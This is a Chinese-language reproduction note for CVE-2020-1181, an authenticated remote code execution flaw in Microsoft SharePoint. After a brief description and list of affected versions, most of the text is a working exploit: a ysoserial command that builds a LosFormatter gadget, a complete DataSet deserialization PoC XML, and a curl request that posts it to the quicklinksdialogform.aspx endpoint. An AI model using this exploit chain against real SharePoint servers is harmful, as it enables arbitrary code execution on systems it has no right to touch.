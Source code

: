 （CVE-2020-1181）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

`SharePoint Portal Server`
是一套门户网站解决方案，使得企业能够便捷地开发出智能的门户网站，能够无缝连接到用户、团队和知识。因此用户能够更好地利用业务流程中的相关信息，更有效地开展工作。

当`Microsoft SharePoint Server`无法正确识别和过滤不安全的`ASP.Net Web`控件时，将会存在一处远程代码执行漏洞。成功利用此漏洞的远程攻击者(需要身份验证)通过创建特制的页面，可以在`SharePoint`应用进程池的上下文中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016Microsoft SharePoint Foundation 2010 Service Pack 2Microsoft SharePoint Foundation 2013 Service Pack 1Microsoft SharePoint Server 2019

三、复现过程
------------

    ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c cale.exe

![1.png](resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId24.png)

替换掉poc.xml内的payload

> Poc.xml

    <DataSet>
      <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" id="somedataset">
        <xs:element name="somedataset" msdata:IsDataSet="true" msdata:UseCurrentLocale="true">
          <xs:complexType>
            <xs:choice minOccurs="0" maxOccurs="unbounded">
              <xs:element name="Exp_x0020_Table">
                <xs:complexType>
                  <xs:sequence>
                    <xs:element name="pwn" msdata:DataType="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>
                  </xs:sequence>
                </xs:complexType>
              </xs:element>
            </xs:choice>
          </xs:complexType>
        </xs:element>
      </xs:schema>
      <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">
        <somedataset>
          <Exp_x0020_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">
            <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
            <ExpandedElement/>
            <ProjectedProperty0>
                <MethodName>Deserialize</MethodName>
                <MethodParameters>
                    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>
                </MethodParameters>
                <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
            </ProjectedProperty0>
            </pwn>
          </Exp_x0020_Table>
        </somedataset>
      </diffgr:diffgram>
    </DataSet>

通过 `curl -L -v --ntlm --negotiate "https://www.0-sec.org/_layouts/15/quicklinksdialogform.aspx?Mode=Suggestion" --data "viewstate=&__SUGGESTIONSCHACHE=urlencode(poc.xml)”`

![2.png](resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

触发漏洞，执行命令
